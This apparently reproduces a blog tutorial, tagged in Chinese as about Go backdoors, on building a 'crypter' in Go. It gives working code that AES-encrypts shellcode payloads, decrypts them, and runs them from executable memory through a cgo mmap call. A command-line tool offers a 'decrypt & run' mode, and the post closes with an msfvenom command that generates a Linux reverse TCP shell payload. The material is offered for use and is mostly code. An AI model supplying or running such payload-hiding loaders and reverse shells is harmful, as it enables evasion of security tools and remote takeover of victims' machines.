 ```yaml
---
layout: post
title: golang进阶:go语言AES编写shellcode
category: golang
tags: golang golang进阶
description: 
keywords: shell-code后门,go黑客,go后门
date: 2019-04-04T13:19:54+08:00
score: 5.0
coverage: golang_shellcode.jpg
published: true
---
```


## 前言
The goal for this post will be to demonstrate how to write a sort of crypter that will work as a command line utility allowing us to:

Encrypt a file (it’s aimed for shellcode payloads but that’s irrelevant)
Decrypt a file
Run shellcode

## Step One: Encrypt
I choose AES as the cipher. The code looks like this (full source can be found on GitHub):

```go
func Encrypt(key []byte, text []byte) ([]byte, error) {
 // Init Cipher
 block, err := aes.NewCipher(key)
 if err != nil {
   return nil, err
 }
 // Padding
 paddingLen := aes.BlockSize - (len(text) % aes.BlockSize)
 paddingText := bytes.Repeat([]byte{byte(paddingLen)}, paddingLen)
 textWithPadding := append(text, paddingText...)
 // Getting an IV
 ciphertext := make([]byte, aes.BlockSize+len(textWithPadding))
 iv := ciphertext[:aes.BlockSize]
 // Randomness
 if _, err := io.ReadFull(rand.Reader, iv); err != nil {
   return nil, err
 }
 // Actual encryption
 cfbEncrypter := cipher.NewCFBEncrypter(block, iv)
 cfbEncrypter.XORKeyStream(ciphertext[aes.BlockSize:], textWithPadding)
 return ciphertext, nil
}
```

The function just creates an AES cipher, then calculates the padding needed and proceeds to encrypt the payload.


## Step Two: Decrypt
Now we need to implement the reverse function (again, full source code on Github):

```go
func Decrypt(key []byte, text []byte) ([]byte, error) {
  // Init decipher
  block, err := aes.NewCipher(key)
  if err != nil {
    return nil, err
  }
  if (len(text) % aes.BlockSize) != 0 {
    return nil, errors.New("wrong blocksize")
  }
  // Getting the IV
  iv := text[:aes.BlockSize]
  // Actual decryption
  decodedCipherMsg := text[aes.BlockSize:]
  cfbDecrypter := cipher.NewCFBDecrypter(block, iv)
  cfbDecrypter.XORKeyStream(decodedCipherMsg, decodedCipherMsg)
  // Removing Padding
  length := len(decodedCipherMsg)
  paddingLen := int(decodedCipherMsg[length-1])
  result := decodedCipherMsg[:(length - paddingLen)]
  return result, nil
}
```

## Step Three: Run
As we are using Go (which does not allow raw bytes execution by default) and the shellcode provided was written for the C stack we need to find a way to execute C code in Go. This can be accomplished by using the “C” package and unsafe pointers.

In C we’d do something like this:
```c
fp = (void *)shellcode
fp();
```

While in Go we need to use some tricks. We’ll use the unsafe package a special pointer that will allow us to use unsafe features:

```go
import "unsafe"
func Run(shellcode []byte) {
  ptr := &shellcode[0]
  unsafe.Pointer(ptr)
}
```

Then we add the C package, write our C code as a comment right above the import and use the defined function to execute the unsafe pointer. This will behave as the C code presented earlier:

```go
/*
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
void execute(char *shellcode, size_t length) {
  unsigned char *ptr;
  ptr = (unsigned char *) mmap(0, length, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  memcpy(ptr, shellcode, length);
  ( *(void(*) ()) ptr)();
}
*/
import "C"
import ("unsafe")
func Run(shellcode []byte) {
  ptr := &shellcode[0]
  size := len(shellcode)
  C.execute((*C.char)(unsafe.Pointer(ptr)), (C.size_t)(size))
}
```

Yes, it’s ugly, I know… but you are running unsafe C code inside Go. It should be ugly. Full source code for this package can be found here.

## Step Four: CLI
Now that we have the meaty part ready we’ll need to implement some methods to facilitate the tool usage. I implemented some functions to allow the user to fire the encryption, decryption and “decrypt & run” routines using various sets of options.

I won’t go into details for this part as it just reads the parameters provided from os.Args[] and determines which function to execute depending on the input. Source code can be found here.

```bash
gocrypt {action} {key} {file}
Action can be: 
  Encryption:     --encrypt -e encrypt e
  Decryption:     --decrypt -d decrypt d
  Decrypt & Run:  --run     -r run     r
Key: must be 16, 24 or 32 chars long
File: must be a valid path
```


## Step Five: Show
We can get the raw bytes for a reverse TCP shell from Metasploit issuing:

msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 > msfvemonpayload
After that, we can use the payload to test our crypter. It’s show time!
